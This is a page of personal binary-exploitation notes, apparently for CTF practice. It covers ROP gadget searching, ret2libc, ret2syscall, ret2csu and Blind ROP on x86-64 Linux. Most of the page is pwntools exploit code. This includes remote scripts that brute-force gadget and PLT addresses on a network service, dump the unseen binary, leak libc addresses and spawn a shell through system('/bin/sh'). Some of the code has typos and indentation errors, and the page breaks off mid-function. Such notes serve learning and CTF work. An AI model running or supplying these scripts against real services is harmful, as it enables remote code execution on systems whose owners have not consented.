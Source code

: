 
### in progress


# ROP
# how to find Gadgets (Ropper)

<details>
    <summary>Ropper</summary>
        <div>


read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

</div>
</details>

		
# find Strings in an ELF	
<details>
    <summary>strings</summary>
        <div>
		
searching manually   \
`strings -t x -a /path/to/binary | grep "string you searching"`

</div>
</details>
		
<details>
    <summary>pwntools</summary>
        <div>

in python script
```
binary = ELF('/path/to/binary')
stringaddr = next(binary.search(b'string you searching'))
```
</div>
</details>

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# Blind Return Oriented Programming






<details>
    <summary>BROP (dont have the binary // PIE off // puts() in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() in binary)
		
Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary


### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```
### find puts-gadget



```
def find_puts(i):                        #puts@plt


    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 



            #this is the plt layout we want to find
            # 0x0000000000400560  puts@plt
            # 0x0000000000400570  setbuf@plt
            # 0x0000000000400580  read@plt
            # 0x0000000000400590  __libc_start_main@plt
            # 0x00000000004005a0  strcmp@plt


    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #first argument for # int puts( char const * string ); puts(rdi) 
    payload += p64(0x400000)                    #points to 0x400000 which should print out 'ELF'
    payload += p64(addr_guess)                  #the addr guess for puts@plt

    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential puts@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    puts = find_puts(i)
    if puts:
        print(f'found puts @ {hex(puts)}')
        break                                   #remove this break if you want to find more potential puts@plt addr.
```

### leak the process with puts()
```
def leak_binary_puts(i,j):


    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)

    r.recvline()                                         #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            #trys to recv the leak if nothin is recv inc offset by 1 and continue
        if check:
            if check.hex()[:-2] == '':                  
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])                 #append leak without \n
                last_len = int(len(check)-1)            #calculate len of leaked bytes
                r.close()
                return int(offset) + int(last_len)      #increase the offset by leaked num of bytes     
            
        else:
            r.close()
    except:                                             #inc offset by 1 and continue
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)

file = []
last_len = 0
offset = 0

for i in range(0xb00):                      
    offset = leak_binary_puts(offset,0x400000)
    print(offset)
    print(f'{hex(i)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```
find the libc verion with https://libc.blukat.me/

```           

def leak(i):        #simple leak function to find all GOT entrys this will print the addr and content of 0x601000 -> 0x601080 in steps of 0x8


    r = remote(ip, port,timeout=1)
    

    payload = b'A'*88                                                   
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)

    leak = unpack(r.recvline()[:-1],'all')
    return leak


libc = ELF(/path/to/libc)                               #we want to guess a libc and if we guess right it should have the same last 3 nibbles 

puts_check = hex(libc.symbols['puts'])[-2::]

for i in range(0x10):                                   #loop 0x601000 -> 0x601080
    check = leak(0x601000+i*8)                          #GOT usually starts somewhere here 0x601000
    print(f'{hex(0x601000+i*8)} : {hex(check)}')
    if hex(check)[12:] == puts_check:
        putsgot = (i*8+0x601000)
        print(f'puts_got @ {hex(putsgot)}')
        break


```

and bringing it all together we can pop a shell

```
def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1) 

    pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10

    payload = b'A'*88                               #leak libc_base
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts)
    payload += p64(loop)                            #loop back to main
 

    r.recvuntill('Are you blind my friend?\n')      #read the 1st (intendet) "Are you blind my friend?\n"
    r.send(payload)


    leak = unpack(r.recvline()[:-1],'all')          #leak puts
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']      #sets libc base

    print(hex(libc.address))

    r.recvuntil('Are you blind my friend?\n')       #read the (loop) "Are you blind my friend?\n"

    binsh = next(libc.search(b'/bin/sh\x00'))       #ret2libc
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    r.send(payload)

    inter()
```



</div>
</details>


<details>
    <summary>BROP (dont have the binary // PIE off // puts() not in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() not in binary)		
		
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx)
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```

```
def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10 same as finding puts
    addr_guess = i*0x10 + 0x400200                    #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #pop 1st argument for # int strcmp (const char* str1, const char* str2); strcmp(rdi,rsi)
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(pop_rsi_r15)                 #pop 2nd argument   
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(0x00)                        #junk to fill r15
    payload += p64(addr_guess)                  #the addr guess for strcmp@plt
    payload += p64(loop)                        #loop back to main if check for GOOD:GOOD pointers work 
    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    

    try:
        check = r.recvline()                                            #trys to recv if cant recv anything EOF error
        if b'Are you blind my friend?\n' in check:                      #if we can find 'Are you blind my friend?\n' we passed check1 
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(addr_guess)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88                                           #same as above but with GOOD:BAD pointers that should crash
            payload += p64(pop_rdi) 
            payload += p64(0x400000)                                    #holds valide pointer to 'ELF'          GOOD
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)                                         #holds invalide pointer to 0x00         BAD
            payload += p64(0x0)
            payload += p64(addr_guess)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = p.recvline()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(addr_guess)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                                       #same as above but with BAD:GOOD pointers that should crash    
                payload += p64(pop_rdi)
                payload += p64(0x0)                                     #holds invalide pointer to 0x00         BAD
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)                                #holds valide pointer to 'ELF'          GOOD
                payload += p64(0x0)
                payload += p64(addr_guess)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = p.recvline()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(addr_guess)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88                                   #same as above but with BAD:BAD pointers that should crash
                    payload += p64(pop_rdi) 
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(0x0)             
                    payload += p64(addr_guess)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = p.recvline()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return addr_guess                               #if all checks were good we return the guess_addr

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(addr_guess))
        r.close()


for i in range(0x50):                                                   # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
        strcmp = find_strcmp(i)
        if strcmp:
            print(f'found strcmp @ {hex(strcmp)}')
            break                                                       #remove this break if you want to find more potential strcmp@plt addr.

 ```

 ```
def find_write()                                #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r = remote(ip, port,timeout=1)  


    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7


                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                    #rdi points to 0x400000 which should hold 'ELF'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)                    #rsi points to 0x400000 which should hold 'ELF'
    payload += p64(0x00)                        #junk r15
    payload += p64(strcmp)                      #sets rdx to != 0x00
    payload += p64(pop_rdi)
    payload += p64(0x01)                        #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(addr_guess)
                                                


    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential write@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    write = find_write(i)
    if write:
        print(f'found write @ {hex(write)}')
        break                                   #remove this break if you want to find more potential write@plt addr.
 ```

 
### leak the process with write()
		
```
def leak_binary_write(i,j):

    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7

    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88                                   #pad
    payload += p64(pop_rdi)                             #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                            #rdi points to 0x400000 which should hold '0x00010102464c457f'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400001)                            #rsi points to 0x400001 which should hold '0x0000010102464c45'
    payload += p64(0x00)                                #junk r15
    payload += p64(strcmp)                              #sets rdx to 0x7f

    payload += p64(pop_rdi)
    payload += p64(0x01)                                #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(pop_rsi_r15)
    payload += p64(x)                                   #addr to leak
    payload += p64(0x00)                                #junk r15   
    payload += p64(addr_guess)                          #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            
